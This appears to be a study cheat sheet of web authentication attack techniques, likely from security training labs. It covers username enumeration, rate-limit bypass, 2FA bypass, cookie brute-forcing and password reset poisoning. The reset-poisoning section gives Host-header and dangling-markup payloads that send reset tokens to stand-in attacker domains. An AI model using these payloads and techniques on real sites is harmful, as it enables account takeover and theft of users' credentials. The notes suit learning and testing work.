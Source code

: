 ## Password based login:
### Different response:
- Check for different response if correct username is entered
- Check for different response code
- Check for different response length

### Subtly different response:
- Sometimes the correct creds induce a very minor change in response

### Enumeration through response timing:
- input a long ass password so that the correct username takes longer to process
- X-Forwarded-For header to bypass rate limiting through IP

### IP Block bypass by providing correct creds:
- In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully

### Enumeration through account locking:
- If one username is attempted multiple times the account might get locked implying that the username is valid.

### If Data is being sent in JSON format:
- Try sending a list of passwords.

## 2FA Bypass:
### Bypass 2FA entirely:
- Try to skip the 2FA step completely by skipping that request and accessing the latter page.

### - Bypass 2FA by brute-force
- If you get a guessable cookie after the first authentication step, you can try to guess that cookie for another account and also brute-force their 2FA code.

## Other Authentication functionalities:
### Stay-Logged-in cookie:
- If you can figure out the construction of the stay-logged-in cookie you can possibly access other accounts, sometimes they are a mix of usernames, passwords and timestamps, encoded in base64 or something else. Try to understand the logic and brute-force the cookie.

### Offline password cracking:
- If you can get hold of the cookie of the victim for example through XSS. You can then try to crack it if you know the logic with which it was created. Or try to brute-force it.

### Password reset:
- The attacker can request the password reset form from his own account and change the username to victims, if that doesn't work he can try to remove the password reset token from the request completely.

### - Password reset poisoning:
- Try changing the host header to sub.evil-user.net (Attacker controlled domain) or try changing incorporating the X-Forwarded-Host header with the value sub.evil-user.com (Attacker controlled domain)

- You can also try to reset the password via dangling markup, just try to inject dangling html inside the Host header or X-Forwarded-Host header. 
- Example: "><img src="https://hacker.com/?
- Or if it raises an error try to inject it inside the port value.
- Example: Host: normal-website.com:arbitraryport"<a href="https://attacker.com/?

### Password reset form:
- Most password forms have three input fields, current password and new password(x2), we can try bruteforcing the current password of any other user through here.

### Version control history
- Virtually all websites are developed using some form of version control system, such as Git. By default, a Git project stores all of its version control data in a folder called .git. Occasionally, websites expose this directory in the production environment. In this case, you might be able to access it by simply browsing to /.git.